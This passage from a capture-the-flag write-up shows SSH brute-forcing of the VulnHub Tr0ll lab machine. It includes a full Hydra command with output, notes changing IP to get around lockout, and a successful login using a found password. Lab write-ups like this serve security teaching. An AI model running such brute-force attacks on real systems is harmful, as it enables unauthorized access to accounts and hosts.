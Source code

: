 ### 0x0856BF/this_folder_contains_the_password/
There is a file named Pass.txt contains text:
```
Good_job_:)
```

## Exploitation
These 2 files could be possible users or passwords. I start with use the first file as user list and the second file as password.
```
root@BOEING:/kapi/vulnhub/tr0ll# hydra -s 22 -v -V -L users -P pass -e n -t 1 -w 30 192.168.159.128 ssh
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-03-01 00:33:13
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 1 task per 1 server, overall 64 tasks, 20 login tries (l:10/p:2), ~0 tries per task
[DATA] attacking service ssh on port 22
[VERBOSE] Resolving addresses ... done
[INFO] Testing if password authentication is supported by ssh://192.168.159.128:22
[INFO] Successful, password authentication is supported by ssh://192.168.159.128:22
[ATTEMPT] target 192.168.159.128 - login "maleus" - pass "" - 1 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "maleus" - pass "Good_job_:)" - 2 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "ps-aux" - pass "" - 3 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "ps-aux" - pass "Good_job_:)" - 4 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "felux" - pass "" - 5 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "felux" - pass "Good_job_:)" - 6 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "Eagle11" - pass "" - 7 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "Eagle11" - pass "Good_job_:)" - 8 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "genphlux" - pass "" - 9 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "genphlux" - pass "Good_job_:)" - 10 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "usmc8892" - pass "" - 11 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "usmc8892" - pass "Good_job_:)" - 12 of 20 [child 0]
[ATTEMPT] target 192.168.159.128 - login "blawrg" - pass "" - 13 of 20 [child 0]
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 0
[RE-ATTEMPT] target 192.168.159.128 - login "blawrg" - pass "" - 13 of 20 [child 0]
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 0
```

The problem started from user blawrg, if hydra fail to logon then the host will block my Kali's IP. I have to change my Kali's IP and then could start trying a new user. I finished but no users could log in. 

I noticed that the directory contained Pass.txt is **this_folder_contains_the_password**. This could mean something so I retry again an use **Pass.txt** as password and I got **overflow** could log in with the password WTH!.
```
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```